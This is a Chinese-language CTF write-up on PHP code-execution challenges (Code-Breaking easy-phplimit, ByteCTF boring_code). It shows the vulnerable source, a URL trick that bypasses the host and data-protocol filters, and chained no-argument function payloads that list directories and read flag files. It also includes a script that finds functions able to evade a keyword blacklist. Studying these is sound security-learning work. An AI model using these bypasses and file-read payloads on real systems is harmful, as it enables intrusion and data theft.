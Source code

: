 # 函数妙用

## code-breaking_easy-phplimit函数的巧妙搭配

### 参考文章

- https://www.kingkk.com/2018/11/Code-Breaking-Puzzles-%E9%A2%98%E8%A7%A3-%E5%AD%A6%E4%B9%A0%E7%AF%87/#get-defined-vars
- https://xz.aliyun.com/t/6316

### 利用

```php
eval(next(current(get_defined_vars())));&b=print_r(scandir('../'));print_r(file_get_contents('../flag_phpbyp4ss'));
readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
```

## ByteCTF boring_code

### 参考文章

- http://www.guildhab.top/?p=1077

- https://xz.aliyun.com/t/6316

### 分析

#### 源码

```php
<?php
function is_valid_url($url) {
    if (filter_var($url, FILTER_VALIDATE_URL)) {
        if (preg_match('/data:\/\//i', $url)) {
            return false;
        }
        return true;
    }
    return false;
}

if (isset($_POST['url'])){
    $url = $_POST['url'];
    if (is_valid_url($url)) {
        $r = parse_url($url);
        if (preg_match('/baidu\.com$/', $r['host'])) {
            $code = file_get_contents($url);
            if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
                if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        } else {
            echo "error: host not allowed";
        }
    } else {
        echo "error: invalid url";
    }
}else{
    highlight_file(__FILE__);
}
```

#### 第一步

第一步需要绕过`preg_match`的检测，网上见到的payload都是通过购买域名，url跳转等方法进行绕过。其实可以通过代码绕过。

**我的方法**

```
compress.zlib://data:@baidu.com/baidu.com,phpinfo()
```

`compress.zlib`绕过data协议的检测，`@`使`data:`被解释为用户名和密码，`baidu.com/baidu.com`中只要包含`/`就会被解释为合法的`media-type`

![](../images/19-9-27_PHP_函数妙用_bytectf_1.png)

**其他方法**

- 购买一个 xxxxbaidu.com 的域名

- 百度网盘链接

  **这种方法的思路是将恶意代码上传到百度网盘 , 然后通过百度网盘的下载链接来绕过 baidu.com 的主机名限制 .**

  1. **将一个恶意脚本上传到百度网盘( 这里以 phpinfo() 为例 )**
  
     ![](../images/19-9-27_PHP_函数妙用_bytectf_3.png)
  
  2. **通过开发者工具( F12 ) , 在 network 选项卡中可以找到目标文件的链接**
  
     ![](../images/19-9-27_PHP_函数妙用_bytectf_2.png)
  
- 百度贴吧（https://www.4xseo.com/marketing/1280/

- 百度爬虫

  其原理大概就是 : **百度的搜索引擎爬虫会爬到你的个人站点 , 当你在百度上点击自己站点时 , 并不是直接访问 . 而是利用百度的重定向机制 , 将你的网址转换成`http://www.baidu.com/link?url=xxxxxxxxxxxxxxx` , 通过这个链接可以绕过第一层防御并且拿到你站点上的恶意脚本 .**

#### 第二步

我们要获取`.`，可以通过获取`.`的ascii码，然后通过`chr`函数得到。写了个脚本：

```php
<?php
$functions=get_defined_functions()['internal'];

function getFucntionParameter1($func) {
    $ReflectionFunc = new \ReflectionFunction($func);
    $nums=$ReflectionFunc->getNumberOfRequiredParameters();
    if ($nums===1){
    	echo $func."\n";
    	#@print_r($func());
    	#echo "\n#####\n";
    }
}



foreach($functions as $vul){
	if(preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log|readline/i', $vul)){

	}else{
		getFucntionParameter1($vul);
	}
}
```

主要使用了反射检测函数的参数。

**payload**

- `crypt`函数的返回值最后一位可能为`.`

  ```php
  if(chdir(next(scandir(chr(ord(strrev(crypt(serialize(array())))))))))readfile(end(scandir(chr(ord(strrev(crypt(serialize(array()))))))));
  ```

- `localeconv`函数

  ```php
  echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
  ```

- `phpversion`函数，通过数学函数变化获取数字`46`

  ```php
  ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))
  ```

- `spl_autoload_extensions`函数

  ```php
  chr(ord(spl_autoload_extensions()))
  ```

